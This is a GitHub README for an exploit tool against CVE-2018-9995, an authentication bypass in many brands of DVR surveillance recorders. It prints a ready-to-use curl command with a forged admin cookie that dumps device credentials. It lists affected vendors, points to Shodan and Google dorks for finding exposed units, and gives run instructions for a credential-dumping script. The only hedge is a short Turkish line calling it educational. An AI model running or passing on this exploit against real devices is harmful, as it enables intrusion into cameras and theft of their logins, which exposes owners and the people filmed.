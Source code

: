 
### Çalıştırma Mantıgı:
Öncelikle merhabalar
Kullanım sorumlulugu tarafınıza aittir.
herhangi bir yasal sorumluluk kabul edilmemektedir.
eğitim amaclıdır.
```
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

```
## tested in DVR (banner/vendor ?):
	Novo
	CeNova
	QSee
	Pulnix
	XVR 5 in 1 (title: "XVR Login")
	Securus,  - Security. Never Compromise !! - 
	Night OWL
	DVR Login
	HVR Login
	MDVR Login

# On the Wild:
![DVR_dorks_0](screenshot/cow/zoomEyes.jpg) 
![DVR_dorks_2](screenshot/cow/shodan_1.png) ![DVR_dorks_1](screenshot/cow/google_1.png) 
![DVR_dorks_3](screenshot/cow/shodan_2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/loginFront/login_1.png)
![DVR_login_2](screenshot/loginFront/login_2.png)
![DVR_login_3](screenshot/loginFront/login_3.png)
![DVR_login_4](screenshot/loginFront/login_4.png)
![DVR_login_5](screenshot/loginFront/login_5.png)
![DVR_login_6](screenshot/loginFront/login_6.png)
![DVR_login_7](screenshot/loginFront/login_7.png)
![DVR_login_8](screenshot/loginFront/login_9.png)
![DVR_login_10](screenshot/loginFront/login_10.png)

## Indoor:
![DVR_indoor_1](screenshot/indoor/in_x.png)
![DVR_indoor_2](screenshot/indoor/in_x1.png)
![DVR_indoor_3](screenshot/indoor/in_1.png)
![DVR_indoor_4](screenshot/indoor/in_2.png)
![DVR_indoor_5](screenshot/indoor/in_3.png)
![DVR_indoor_6](screenshot/indoor/in_4.png)
![DVR_indoor_7](screenshot/indoor/in_5.png)


# TOOL: "Show all DVR Credentials"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/CVE-2018-9995_dvr_credentials.git
	usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
	usr@pwn:~$ pip install -r requirements.txt

## help

	usage: getDVR_Credentials.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining Exposed credentials

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python getDVR_Credentials.py --host 192.168.1.101 -p 81


## Pocs (Output) :
![DVR_poc_4](screenshot/toolOutput/poc_4.png)
![DVR_poc_3](screenshot/toolOutput/poc_3.png)
![DVR_poc_2](screenshot/toolOutput/poc_2.png)
![DVR_poc_1](screenshot/toolOutput/poc_1.png)



### Blog:
http://misteralfa-hack.blogspot.cl/2018/04/update-dvr-login-bypass-cve-2018-9995.html


I see you... ! xd
